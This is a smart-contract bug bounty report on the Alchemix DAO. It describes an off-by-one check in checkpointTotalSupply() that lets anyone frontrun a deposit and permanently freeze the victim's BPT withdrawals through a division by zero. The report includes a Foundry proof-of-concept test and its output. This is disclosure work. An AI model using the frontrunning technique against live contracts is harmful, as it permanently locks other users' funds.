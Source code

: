 
# `checkpointTotalSupply()` can checkpoint before a timestamp is complete

Submitted on Sun May 12 2024 04:57:42 GMT-0400 (Atlantic Standard Time) by @Holterhus for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31076

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/RevenueHandler.sol

Impacts:
- Permanent freezing of funds

## Description
## Brief/Intro
The `checkpointTotalSupply()` function is in the `RewardsDistributor` and is callable by anyone. The function has an incorrect comparison of `>` instead of `>=`, and this can lead to a checkpoint being recorded when a timestamp is not yet complete. This leads to mistakes in the internal accounting. In the worst case, a user can never successfully `claim()` again, which permanently freezes their `BPT` tokens that have been deposited into `veALCX`. 

## Vulnerability Details
The implementation of `_checkpointTotalSupply()` is as follows:


```solidity
function _checkpointTotalSupply() internal {
    address ve = votingEscrow;
    uint256 t = timeCursor;
    uint256 roundedTimestamp = (block.timestamp / WEEK) * WEEK;
    IVotingEscrow(ve).checkpoint();

    for (uint256 i = 0; i < 20; i++) {
        if (t > roundedTimestamp) {
            break;
        } else {
            veSupply[t] = IVotingEscrow(ve).totalSupplyAtT(t);
        }
        t += WEEK;
    }
    timeCursor = t;
}
```

Notice that whenever `veSupply[t]` is assigned to a value, the `t += WEEK` increment happens immediately after, which permanently progresses the cursor so that `veSupply[t]` will never be assigned to again. Also, notice that the `veSupply[t]` assignment is only skipped if `t > roundedTimestamp`. This is incorrect. It should also be skipped if `t == roundedTimestamp`, otherwise this code can record the `totalSupplyAtT()` value before the timestamp itself is complete. This means the check should actually be: `if (t >= roundedTimestamp)`.

## Impact Details
In the scenario when `t == roundedTimestamp`, the code will incorrectly cache the `totalSupplyAtT()` of the current timestamp early. Any actions taken in `veALCX` after this (but on the same timestamp) will not be reflected in the `veSupply[]` value. On the other hand, the `_claimable()` function will correctly account for these last-second actions in each individual `tokenId`. As a result, it is possible for the `balanceOf` value below to contain deposits that did not contribute to the `veSupply[weekCursor]` value:

```solidity
if (balanceOf != 0) {
    toDistribute += (balanceOf * tokensPerWeek[weekCursor]) / veSupply[weekCursor]
}
```

In the worst-case scenario, the first user of `VotingEscrow` can end up in a situation where `veSupply[weekCursor] == 0` and `balanceOf > 0`. In this case, the `claim()` function will revert due to a division by zero, and it will permanently fail to progress past the broken week.

Since the `withdraw()` function in the `veALCX` contract has the following code:

```soldidity
IRewardsDistributor(distributor).claim(_tokenId, false);
```

it will always revert on this line, and users will be in a state where they are permanently unable to withdraw their `BPT` tokens. See the PoC for an example.

## References
See the PoC below.
        
## Proof of concept
## Proof of Concept

I have created the following test file and added it to the `tests/` directory:


```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.15;

import "./BaseTest.sol";

contract CheckpointBugTest is BaseTest {

    address victim = admin;

    constructor() {
        setupContracts(block.timestamp);
    }

    function testCheckpointTotalSupplyBugFreezing() public {

        uint256 ts = ((block.timestamp + 1 weeks) / 1 weeks) * 1 weeks;
        hevm.warp(ts);

        // If a victim is about to deposit, frontrunning and checkpointing them 
        // will store `veSupply[ts] == 0`. This is especially a risk if block builders
        // aren't currently accepting the victim tx's priority fee, so there's a large window
        // of time where the user's tx is in the mempool but not on-chain. This may also just
        // happen by accident.
        distributor.checkpointTotalSupply();
        uint256 tokenId = createVeAlcx(victim, TOKEN_100K, MAXTIME, false);

        console.log("The following state implies that `claim()` will permanently divide by 0:");
        console.log("ts", ts);
        console.log("distributor.timeCursor()", distributor.timeCursor());
        console.log("distributor.veSupply(ts)", distributor.veSupply(ts));
        console.log("veALCX.totalSupplyAtT(ts)", veALCX.totalSupplyAtT(ts));

        hevm.warp(newEpoch());
        voter.distribute();

        vm.expectRevert();
        distributor.claimable(tokenId);

        hevm.warp(veALCX.lockEnd(tokenId));

        vm.startPrank(victim);
        
        veALCX.startCooldown(tokenId);

        hevm.warp(block.timestamp + 1 weeks);

        // Now their BPT is permanently stuck since all calls to `claim()` will revert due to
        // a division by 0. It shouldn't have allowed `veSupply[ts] == 0` to be checkpointed
        // because the timestamp wasn't over yet.
        vm.expectRevert();
        veALCX.withdraw(tokenId);

        vm.stopPrank();
    }
}
```


Running the command `forge test -vvv --match-test testCheckpointTotalSupplyBugFreezing --rpc-url $ETH_RPC_URL` gives the following result:


```
[PASS] testCheckpointTotalSupplyBugFreezing() (gas: 25610541)
Logs:
  The following state implies that `claim()` will permanently divide by 0:
  ts 1715817600
  distributor.timeCursor() 1716422400
  distributor.veSupply(ts) 0
  veALCX.totalSupplyAtT(ts) 199452054794520538483200

```

which shows that the user's attempt to call `withdraw()` indeed reverts and their deposited `BPT` tokens are permanently frozen. 